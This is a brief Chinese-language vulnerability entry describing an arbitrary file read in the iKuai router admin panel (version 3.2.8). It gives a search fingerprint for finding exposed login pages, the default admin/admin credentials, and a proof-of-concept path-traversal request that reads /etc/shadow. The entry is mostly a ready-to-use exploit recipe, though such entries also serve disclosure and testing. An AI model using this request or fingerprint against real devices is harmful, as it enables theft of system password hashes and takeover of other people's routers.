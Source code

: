# 

# iKuai 后台任意文件读取漏洞

## 漏洞描述

参考链接：

- https://forum.ywhack.com/thread-115307-1-8.html

## 漏洞影响

影响版本，不一定是绝对版本，也可能其它版本都存在：

```
3.2.8 x64 Build201910101758
```

## 网络测绘

```
title="登录爱快流控路由"
```

## 漏洞复现

默认用户名/密码：admin/admin

poc：

```
GET /Action/download?filename=../../../../../../etc/shadow HTTP/1.1
Host：
....
```






